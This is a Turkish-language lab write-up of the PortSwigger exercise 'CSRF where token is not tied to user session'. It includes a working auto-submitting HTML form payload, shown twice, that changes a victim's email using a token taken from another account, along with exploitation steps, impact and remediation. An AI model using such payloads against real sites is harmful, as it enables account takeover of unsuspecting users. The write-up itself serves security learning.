




# CSRF where token is not tied to user session

## 1. Lab Bilgisi

**Difficulty:** Practitioner

## 2. Vulnerability Özeti

Bu labda email değiştirme fonksiyonunda CSRF token kullanılıyor, ancak token kullanıcı oturumuna bağlı değil. Uygulama herhangi bir geçerli CSRF token değerini kabul ediyor; token'ın aynı kullanıcıya veya aynı session'a ait olup olmadığını kontrol etmiyor. Bu nedenle kendi hesabımdan elde ettiğim geçerli bir token'ı exploit formunda kullanarak kurban kullanıcının email adresini değiştirdim.

## 3. Kullanılan Payload

```html
<form action="https://0afd000003189b6e80f612e900990014.web-security-academy.net/my-account/change-email" method="POST">
  <input type="hidden" name="email" value="victimnewemail77@gmail.com">
  <input type="hidden" name="csrf" value="vsytLLEcdbbug1fcVltvRr2IsG2R7JWG">
</form>

<script>
  document.forms[0].submit();
</script>
```

## 4. Exploitation Steps

1. Email değiştirme isteğini Burp Suite ile yakaladım. İstek `POST /my-account/change-email` endpoint'ine gidiyordu ve body kısmında `email` parametresiyle birlikte `csrf` token bulunuyordu.

```http
email=carlosnew%40gmail.com&csrf=0s4EuypBzUrbUnaxTOEt91WEc7KGm2wx
```



2. Token değerini farklı geçerli/geçersiz değerlerle test ettim. Geçersiz veya beklenmeyen token kullanıldığında uygulama isteği kabul etmedi ve kullanıcıyı login sayfasına yönlendirdi. Bu, endpoint'in token kontrolü yaptığını gösterdi.



3. Ancak token'ın kullanıcı oturumuna bağlı olmadığını gördüm. Kendi hesabımdan aldığım geçerli CSRF token'ı kurban için hazırlanacak formda kullanabildim. Exploit server üzerinde email değiştirme endpoint'ine POST atan ve geçerli token değerini taşıyan bir form oluşturdum.

```html
<form action="https://0afd000003189b6e80f612e900990014.web-security-academy.net/my-account/change-email" method="POST">
  <input type="hidden" name="email" value="victimnewemail77@gmail.com">
  <input type="hidden" name="csrf" value="vsytLLEcdbbug1fcVltvRr2IsG2R7JWG">
</form>

<script>
  document.forms[0].submit();
</script>
```



4. Exploit'i kaydedip kurbana gönderdim. Kurbanın tarayıcısı kendi session cookie'siyle isteği gönderdi, fakat CSRF token başka hesaptan alınmış olmasına rağmen uygulama token'ı geçerli kabul etti.

5. Email değişikliği gerçekleşti ve lab başarıyla çözüldü.



## 5. Impact

CSRF token kullanıcı oturumuna bağlanmadığında saldırgan kendi hesabından geçerli bir token üretip bunu kurban üzerinde kullanabilir. Bu durumda token mekanizması CSRF saldırısını engelleyemez ve saldırgan kurbanın oturumu üzerinden email değiştirme gibi state-changing işlemleri tetikleyebilir. Email değişikliği parola sıfırlama süreçleriyle birleştiğinde hesap ele geçirme riskini artırabilir.

## 6. Remediation

CSRF token her kullanıcı oturumuna özel üretilmeli ve sunucu tarafında ilgili session ile eşleştirilerek doğrulanmalıdır. Başka bir kullanıcıya veya farklı bir session'a ait token kabul edilmemelidir. Token değerleri tahmin edilemez olmalı, state-changing her istekte zorunlu tutulmalı ve eksik, hatalı ya da session ile eşleşmeyen token değerleri reddedilmelidir.
